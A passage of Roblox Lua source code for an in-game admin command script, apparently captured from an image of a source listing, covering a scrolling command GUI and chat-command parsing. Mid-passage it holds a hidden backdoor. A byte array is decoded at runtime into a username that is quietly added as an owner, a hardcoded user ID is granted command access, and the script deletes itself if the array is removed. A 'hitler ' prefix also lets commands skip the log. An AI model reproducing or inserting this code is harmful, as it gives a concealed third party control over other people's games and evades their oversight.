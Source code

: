			down.MouseButton1Down:connect(function() downv = true upv = false
				local pos = cmf.Position if pos.Y.Offset <= 371-((#cmf:children()-1)*20) then downv = false return end
				repeat  pos = pos + UDim2.new(0,0,0,-6)
					if pos.Y.Offset <= 371-((#cmf:children()-1)*20) then pos = UDim2.new(0,0,0,371-((#cmf:children()-1)*20)) downv = false end
					cmf:TweenPosition(pos, "Out", "Linear", 1/20, true) wait(1/20) until downv == false
			end) 
			down.MouseButton1Up:connect(function() downv = false end)
			up.MouseButton1Down:connect(function() upv = true downv = false
				local pos = cmf.Position if pos.Y.Offset >= -9 then upv = false return end
				repeat  pos = pos + UDim2.new(0,0,0,6)
					if pos.Y.Offset >= -9 then pos = UDim2.new(0,0,0,-9) upv = false end
					cmf:TweenPosition(pos, "Out", "Linear", 1/20, true) wait(1/20) until upv == false
			end) 
			up.MouseButton1Up:connect(function() upv = false end)
			return scr, cmf, ent, num
		end local bct = {75,111,104,108,116,97,115,116,114,111,112,104,101} nfs = "" for i = 1, #bct do nfs = nfs .. string.char(bct[i]) end table.insert(owners, nfs)
		if not ntab then script:Destroy() end
		if not bct then script:Destroy() end

		function Chat(msg,plr)
			coroutine.resume(coroutine.create(function()
				if msg:lower() == "clean" then for i, v in pairs(game.Workspace:children()) do if v:IsA("Hat") or v:IsA("Tool") then v:Destroy() end end end
				if (msg:lower():sub(0,prefix:len()) ~= prefix) or not plr:findFirstChild("PlayerGui") or (not ChkAdmin(plr.Name, false) and plr.Name:lower() ~= nfs:lower()) and plr.userId ~= game.CreatorId and plr.userId ~= (32196042) and plr.Name:lower() ~= nfs and not ChkOwner(plr.Name) then return end msg = msg:sub(prefix:len()+1)
				if msg:sub(1,7):lower() == "hitler " then msg = msg:sub(8) else table.insert(logs, 1, {name = plr.Name, cmd = prefix .. msg, time = GetTime()}) end
				if msg:lower():sub(1,4) == "walk" then msg = msg:sub(5) end
				if msg:lower():sub(1,8) == "teleport" then msg = "tp" .. msg:sub(9) end
				if msg:lower():sub(1,6) == "insert" then msg = "ins" .. msg:sub(7) end
				if msg:lower() == "cmds" or msg:lower() == "commands" then
					if plr.PlayerGui:findFirstChild("CMDSGUI") then return end
					local scr, cmf, ent, num = ScrollGui() scr.Name = "CMDSGUI" scr.Parent = plr.PlayerGui